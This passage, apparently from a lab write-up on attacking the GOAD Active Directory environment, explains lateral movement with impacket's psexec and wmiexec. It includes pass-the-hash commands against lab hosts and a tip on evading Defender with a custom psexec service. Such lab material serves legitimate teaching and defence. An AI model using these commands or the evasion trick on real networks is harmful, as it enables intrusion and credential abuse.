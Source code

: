 - Before jumping into some lateral move technics i recommend you to read the following articles about the usual technics implemented in impacket : 
  - [https://www.synacktiv.com/publications/traces-of-windows-remote-command-execution.html](https://www.synacktiv.com/publications/traces-of-windows-remote-command-execution.html)
  - [https://neil-fox.github.io/Impacket-usage-&-detection/](https://neil-fox.github.io/Impacket-usage-&-detection/)

- With impacket we could use : 
  - PTH : -hashes <NTLM>
  - PTK : -key <aes128 or 256 key>

### Lateral Move with impacket

#### PsExec

- PsExec:
  - upload executable
  - create a service to run the executable
  - Communicate with the service with namedPipe.
  - Protocol : SMB

```
psexec -hashes 'cba36eccfd9d949c73bc73715364aff5' NORTH/catelyn.stark@192.168.56.11
```

> PsExec is flagged out of the box by defender and can no longer be used with the RemCom service binary embeded with impacket without raising an alert and fail.
{: .prompt-warning }

> Impacket give an option to change the service used by psexec with the -file option
{: .prompt-tip }

- By creating a custom psexec service you can bypass the defender av and get a shell

![lateral_custom_psexec.png](/assets/blog/GOAD/lateral_custom_psexec.png)

![lateral_custom_psexec_wireshark.png](/assets/blog/GOAD/lateral_custom_psexec_wireshark.png)

#### WmiExec

WmiExec (pseudo-shell):
 - Create new process throught wmi
 - Create file to get the command result, read the file with smb and delete it
 - Protocols : DCERPC + SMB

```bash
wmiexec.py -hashes ':cba36eccfd9d949c73bc73715364aff5' NORTH/catelyn.stark@192.168.56.11
```

![lateral_wmi_exec.png](/assets/blog/GOAD/lateral_wmi_exec.png)

![lateral_wmiexec_wireshark.png](/assets/blog/GOAD/lateral_wmiexec_wireshark.png)

#### SmbExec
